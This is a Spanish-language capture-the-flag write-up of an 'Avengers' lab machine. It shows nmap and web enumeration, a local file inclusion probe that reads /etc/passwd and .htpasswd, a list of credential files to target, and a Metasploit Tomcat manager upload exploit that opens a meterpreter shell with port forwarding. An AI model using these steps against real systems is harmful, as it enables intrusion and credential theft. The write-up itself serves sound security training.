Write‑up completo · José Luis Trigo Calvo

| Autor | José Luis Trigo Calvo |
| linkedin.com/in/jltrigoc/ | |
| Web | joseltc.github.io/ |
| jltrigoc01@gmail.com |
El contenido de este documento refleja el proceso de resolución de un CTF (Capture The Flag) con fines estrictamente educativos. Todas las herramientas y comandos empleados se han utilizado en un entorno controlado y autorizado, como parte de mi formación como ethical hacker. No se ha realizado ninguna actividad ilícita ni se ha atacado ningún sistema real sin consentimiento. El único propósito de este trabajo es el aprendizaje y la mejora de las habilidades en ciberseguridad.
📑 Índice
Ambas máquinas se encuentran dentro de una misma interfaz de red.
Con el comando ip a comprobamos la IP que ha sido asignada a nuestra máquina Kali Linux. ( IP Kali Linux -> 192.168.56.129)
Con el comando sudo nmap -sn 192.168.56.0/24 buscamos la IP de nuestra máquina Avengers.

Como hemos visto en la página donde hemos obtenido la máquina, el objetivo del CTF es recuperar las 5 armaduras ocultas de los vengadores. Además, nos indica que hay una contraseña oculta dentro de la máquina dividida en 3 partes.
Procederemos a escanear la máquina Avengers más a fondo para saber los servicios que está prestando y en que puertos.
Utilizaremos el comando nmap -p- -sV 192.168.56.128

Como podemos ver obtenemos que la máquina tiene abiertos los siguientes puertos y está ofreciendo los siguientes servicios:
| Puerto 80 | Apache / http |
| Puerto 8009 | Apache Jserv |
| Puerto 8080 | Apache Tomcat |
| Puerto 65534 | SSH |
Revisaremos el puerto 80 en la web para ver si nos han dejado alguna pista que sea fácilmente identificable a simple vista.

No encontramos nada en una primera vista, de modo que como también tenemos un puerto abierto con SSH vamos a intentar acceder.
Con el comando ssh 192.168.56.128 -p 65534 intentamos acceder a SSH y como podemos ver en el archivo de configuración de SSH encontramos la primera armadura y la primera pista.

| HULK ARMOUR | 7BDA7019C06B53AEFC8EE95D2CDACCAA | |
| HINT 1 | TheOlympics |
Como ya hemos encontrado la primera armadura y, cuando revisamos la web alojada en el puerto 80 no encontramos nada, vamos a realizar un escaneo de enumeración web para descubrir directorios y archivos ocultos en servidores web.
Utilizaremos el comando gobuster dir -u http://192.168.56.128 -w /usr/share/wordlists/dirb/common.txt

Con este comando conseguimos la estructura de directorios del servidor web pero tampoco vemos nada que nos llame la atención.
Probaremos con el comando nikto -h 192.168.56.128 para ver si con otra herramienta encontramos algo distinto.

Seguimos obteniendo los mismos resultados. Vamos a comprobar el código index.html por si nos hubieran dejado alguna pista oculta en su interior.

En el código podemos encontrar estas 3 pequeñas pistas que podrían ser un usuario, un puerto y un archivo a descargar.
Vamos a comprobar si hay algún servicio en el puerto 69.
Como con el comando nmap -sV obteníamos los puertos TCP y el 69 no salía, vamos a probar con nmap -sU -p69 192.168.56.128 con el que obtenemos los puertos UDP que la máquina tenga abiertos o con servicios activos.

Como vemos hay un servicio tftp en el puerto 69. Lo más probable es que el archivo notes.txt se encuentre en este servidor. Vamos a probar suerte.

Hemos obtenido el archivo del servidor tftp con el comando get notes.txt y en el archivo podemos ver que está la segunda armadura, esta vez es la de Spiderman, y la segunda parte de la contraseña.

| Spiderman Armour | 83A75F0B31435193BAFD3B9C5FD45AEC | |
| Hint 2 | maybeevena |
Como en ninguna de las pistas hemos encontrado algún camino que seguir, vamos a utilizar la herramienta dirbuster con el objetivo de intentar profundizar más dentro del servidor apache.

Después de un buen rato de búsqueda, hemos encontrado un archivo php que puede ser interesante para la explotación de LFI.

LFI (Local File Inclusion) es una vulnerabilidad de seguridad web que permite a un atacante incluir y ejecutar archivos locales del servidor a través de una aplicación web. Ocurre cuando una aplicación permite que el usuario especifique la ruta de un archivo sin validar adecuadamente la entrada, lo que permite al atacante manipular el parámetro para acceder a archivos sensibles del sistema.
Al abrir el archivo en el navegador podemos ver que está vacío.
Con la búsqueda http://192.168.56.128/file.php?file=/etc/passwd vamos a comprobar si realmente la máquina es vulnerable a este ataque. (Si nos muestra el archivo podemos determinar que sí es vulnerable).

Ahora que ya sabemos que es vulnerable, vamos a comprobar los principales archivos del sistema y de los servicios que se encuentran instalados en la máquina vulnerable.
Archivos por comprobar:
(Las rutas incluidas en el documento suelen ser las que se usan de manera genérica en el proceso de instalación de los servicios, pero puede ser que no se correspondan con las de la máquina vulnerable, y por tanto, no encontremos los archivos deseados, pero es muy interesante hacer la búsqueda de estos archivos porque pueden contener lo que buscamos.)
Sistema:
| Archivo | Ubicación | Propósito |
|---|---|---|
| /etc/passwd | /etc/passwd | Usuarios del sistema (confirmar LFI) |
| /etc/shadow | /etc/shadow | Hashes de contraseñas de usuarios |
| /etc/hosts | /etc/hosts | Resolución de nombres local |
En estos archivos encontramos lo siguiente:
En /etc/passwd encontramos dos usuarios de la máquina vulnerable:

En los otros dos ficheros no encontramos nada relevante (el fichero /etc/shadow no se nos muestra)
Apache (Puerto 80):
| Archivo | Ubicación | Propósito |
|---|---|---|
| .htpasswd | /etc/apache2/.htpasswd | Almacena credenciales de autenticación básica HTTP (posible 3ª parte de la contraseña) |
| apache2.conf | /etc/apache2/apache2.conf | Configuración principal del servidor Apache |
| sites-available/ | /etc/apache2/sites-available/ | Configuración de sitios virtuales (dominios) |
En el archivo /etc/apache2/.htpasswd encontramos la tercera armadura que buscábamos y la tercera y última parte de la contraseña.

|
 |
Antman Armour | A9F56B7ECE2113C9C4A1214A19EDE99C |
| Hint 3 | StarBucks |
El archivo /etc/apache2/apache2.conf no contiene nada relevante y el archivo /etc/apache2/apache2.conf no se muestra.
Tomcat (Puerto 8080):
| Archivo | Ubicación | Propósito |
|---|---|---|
| tomcat-users.xml | /etc/tomcat9/tomcat-users.xml o /usr/share/tomcat9/conf/tomcat-users.xml | Credenciales de usuarios de Tomcat (acceso al panel de administración) |
| server.xml | /etc/tomcat9/server.xml | Configuración principal de Tomcat |
| manager.xml | /etc/tomcat9/Catalina/localhost/manager.xml | Configuración del administrador de Tomcat |
No he encontrado ninguno de los archivos en la máquina vulnerable.
Apache JServ (Puerto 8009):
| Archivo | Ubicación | Propósito |
|---|---|---|
| workers.properties | /etc/apache2/workers.properties | Configuración de trabajadores para conexión AJP |
No he encontrado el archivo en la máquina vulnerable.
SSH (Puerto 65534):
| Archivo | Ubicación | Propósito |
|---|---|---|
| sshd_config | /etc/ssh/sshd_config | Configuración del servidor SSH |
| .bash_history | ~/.bash_history | Historial de comandos del usuario (pistas, contraseñas) |
En el archivo /etc/ssh/sshd_config encontramos alguna cosa interesante, que aunque ya la hemos conseguido por otros medios con anterioridad, también podríamos haber llegado a ella desde aquí.
El fichero de configuración indica que el banner no será el que tiene SSH por defecto, si no que será Banner /etc/ssh/sshd_banner.

Si accedemos al documento a través de la web, vemos que nos volvemos a encontrar con la armadura de HULK y la HINT 1 que nos encontrábamos al iniciar el servicio SSH. Este fichero es su origen.

Si recapitulamos un poco ya hemos recuperado 3 de las 5 armaduras y ahora ya tenemos una contraseña completa al juntar las tres pistas.
Contraseña -> TheOlympicsmaybeevenaStarBucks
Además, también hemos obtenido un par de usuarios del sistema como son:
Vamos a ver como podemos utilizar estos datos con el fin de recuperar el resto de las armaduras.
El siguiente paso que debemos seguir es intentar buscar alguna vulnerabilidad en el servicio tomcat, ya que los usuarios y la contraseña obtenida deben servir para algo.
Para buscar vulnerabilidades de una aplicación, lo más sencillo es usar metasploit.
Con los comandos msfdb init & msfconsole iniciamos la base de datos de metasploit y la consola.

Con search tomcat encontramos más de 70 vulnerabilidades distintas en la máquina. Para realizar una búsqueda más eficiente y mas certera, vamos a utilizar el comando search type:exploit tomcat authenticated y de esta manera solo obtendremos las vulnerabilidades relacionadas con el inicio de sesión en tomcat.

Investigando un poco, la vulnerabilidad tomcat_mgr_upload es la recomendada para explotar porque es más moderna que la vulnerabilidad tomcat_mgr_deploy.
Con use exploit/multi/http/tomcat_mgr_upload iniciamos el uso del exploit y nos indica que el payload para realizar la Shell inversa no está configurado.
Con show options vemos las opciones que tiene esta vulnerabilidad y que serán las que debemos configurar con los datos que tenemos.

Configuramos el exploit con los siguientes datos:

Ahora ya podemos ejecutar el exploit con run o exploit, pero al hacer esta ejecución nos indica que debemos ajustar esta configuración para que se inicie correctamente -> set FingerprintCheck false
Ahora al ejecutar run, ya nos indica que la sesión meterpreter ha sido abierta correctamente.

Crearemos una shell y la haremos interactiva con python3 -c 'import pty; pty.spawn("/bin/bash")'. Ahora ya utilizaremos comandos propios de linux para intentar buscar alguna pista.

Vamos a explorar los directorios /home de los usuarios del sistema. Como podemos ver en la imagen no encontramos nada destacable.

Revisando alguna carpeta más como tftpboot vemos el origen de la armadura de Spiderman y la pista número 2, pero esto ya lo habíamos conseguido.

No tenemos acceso a la carpeta de root (como es normal) y navegando por el resto de directorios del sistema no encontramos nada destacable.
Una de las prácticas más habituales a la hora de estar dentro de una sesión meterpreter en una máquina, es la comprobación de conexiones de red activas, puertos abiertos y servicios en ejecución de la máquina comprometida.
Para ello se utiliza el comando netstat -antp y encontramos una conexión activa en la dirección 127.0.0.1:8081 (localhost) que podría ser interesante.

Para poder acceder a ese puerto debemos hacer port-forwarding (Port Forwarding es una técnica que permite redirigir el tráfico de un puerto en tu máquina local a un puerto en una máquina remota, o viceversa) con portfwd add -L 0.0.0.0 -l 8081 -p 8081 -r 127.0.0.1. (Importante: es un comando que no deja ejecutarlo dentro de la sesión interactiva, por tanto, debemos hacer un exit y ejecutarlo en la Shell normal de meterpreter)

Y al acceder desde el navegador web, podemos ver la cuarta armadura, que corresponde a Black Panther.

|
 |
Black Panther Armour | 690B4BAC6CA9FB81814128A294470F92 |
